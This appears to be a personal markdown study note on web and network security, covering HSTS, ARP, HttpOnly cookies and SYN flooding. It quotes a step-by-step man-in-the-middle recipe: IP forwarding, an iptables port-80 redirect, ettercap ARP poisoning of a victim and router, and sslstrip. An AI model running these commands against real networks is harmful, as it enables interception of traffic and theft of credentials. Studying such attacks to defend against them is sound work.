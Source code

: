 * http://blog.codeclimate.com/blog/2013/03/27/rails-insecure-defaults/

__HSTS header__
https://gist.github.com/bartekn/6924685

`Strict-Transport-Security: max-age=31536000`

> HTTP Strict Transport Security (HSTS) is an opt-in security enhancement that is specified by a web application through the use of a special response header. Once a supported browser receives this header that browser will prevent any communications from being sent over HTTP to the specified domain and will instead send all communications over HTTPS. It also prevents HTTPS click through prompts on browsers.

__MITM attacks__

> First I turned IP forwarding on so that my computer can act as a router and route traffic to other destinations: 
attacker@linux:/#: echo 1 > /proc/sys/net/ipv4/ip_forward 
I setup setup my firewall tables to NAT all incoming TCP traffic received over port 80 to be redirected out port 10000:
attacker@linux:/#: iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 10000 
Then, I used ettercap to perform ARP poisoning on the victim's router so that all traffic being sent to my victim will first be sent to me: 
attacker@linux:/#: ettercap -Tq -i eth0 -M arp:remote /victim's IP/ /router's IP/ 
I used the python program SSLstrip that Moxie Marlinspike created to make the HTTPS to HTTP substitutions and keep track of the changes make: 
attacker@linux:/#: python sslstrip.py -a

__ARP__

http://www.watchguard.com/infocenter/editorial/135324.asp

1. An ARP Request. Computer A asks the network, "Who has this IP address?"
2. An ARP Reply. Computer B tells Computer A, "I have that IP. My MAC address is [whatever it is]."
3. A Reverse ARP Request (RARP). Same concept as ARP Request, but Computer A asks, "Who has this MAC address?"
4. A RARP Reply. Computer B tells Computer A, "I have that MAC. My IP address is [whatever it is]"

ARP poisoning
* The hacker begins by sending a malicious ARP "reply" (for which there was no previous request) to your router. ( router thinks the hacker's computer is your computer)
* Next, the hacker sends a malicious ARP reply to your computer, associating his MAC Address with 192.168.0.1.  (your machine thinks the hacker's computer is your router)

Aircrack tool: 
* http://www.aircrack-ng.org/
* http://www.irongeek.com/i.php?page=videos/bsideslasvegas2013/2-2-6-the-slings-and-arrows-of-open-source-security-tod-beardsley-and-mister-x

__HttpOnly Cookie__

https://www.owasp.org/index.php/HttpOnly

Attempts to avoid XSS to access cookie even if a user is exposed to the XSS.

### DDOS

__SYN Flooding__ - http://tools.ietf.org/html/rfc4987 
